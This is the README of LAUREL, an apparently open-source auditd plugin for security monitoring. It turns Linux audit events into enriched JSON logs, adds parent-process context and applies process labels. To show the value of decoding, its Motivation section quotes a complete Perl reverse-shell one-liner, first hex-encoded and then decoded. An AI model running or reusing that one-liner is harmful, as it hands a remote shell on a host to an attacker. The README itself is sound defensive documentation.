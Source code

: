 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/hillu/laurel/tree/v0.4.1).

## Motivation

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. The event even contains useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring. However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing, transforming, enriching them, and writing them out as a separate JSON-based log. All information that was part of the original audit log is kept intact. The audit daemon is not replaced as the consumer of audit messages from the Linux kernel. Instead, _auditd's_ plugin interface is used, therefore _LAUREL.. can peacefully coexist with other consumers of audit events.

The chapter [_LAUREL_ installation instructions](INSTALL.md) contains instructions on how to set up and configure usage of the plugin.

Details about the log format are described in the [JSON-based log format](json-format.md) chapter.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) chapter for details.

## Audit rules

Currently, _LAUREL_ comes with no explicit recommendations on what to log. This is left as an exercise to the user. A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>.

_LAUREL_ will currently work best if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Events with context

Every event that is caused by a syscall or filesystem rule is annotated with information about the process that caused the event and its parent:

``` json
"PPID": {
  "EVENT_ID": "1643635026.276:327308",
  "comm": "sh",
  "exe": "/usr/bin/dash",
  "ppid": 1532
},
"PID": {
  "EVENT_ID": "1643635028.826:327529",
}
```
`PID.EVENT_ID` or `PPID.EVENT_ID` refers to the audit event corresponding to the last `execve` syscall for the process or its parent, respectively.

## Adding more context: Keys and process labels

Audit events can contain a key, a short string that can be used to filter events. _LAUREL_ can be configured to recognize such keys and add them as labels to the process that caused the event. These labels can also be propagated to child processes. This is useful to avoid expensive JOIN-like operations in log analysis to filter out noise.

Consider the following audit rule that set keys for _apt_ and _dpkg_ invocations:
```
-w /usr/bin/apt-get -p x -k software_mgmt
```
Let's configure _LAUREL_ to turn the `software_mgmt` key into a process label that is propagated to child processes:
``` ini
[label-process]

label-keys = [ "software_mgmt" ]
propagate-labels = [ "software_mgmt" ]
```
Together with a ruleset that logs _execve(2)_ and variants, this will cause every event directly caused by `apt-get` and its subprocesses to be labelled `software_mgmt`.

For example, running `sudo apt-get update` on a Debian/bullseye system with a few sources configured, the following subprocesses labelled `software_gmt` can be observed in _LAUREL's_ audit log:

- `apt-get update`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/https`
- `/usr/lib/apt/methods/http`
- `/usr/lib/apt/methods/gpgv`
- `/usr/lib/apt/methods/gpgv`
- `/usr/bin/dpkg --print-foreign-architectures`
- `/usr/bin/dpkg --print-foreign-architectures`

This sort of tracking also works for package installation or removal. If some package's post-installation script is behaving suspiciously, a SIEM analyst will be able to make the connection to the software installation process by inspecting a single event.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
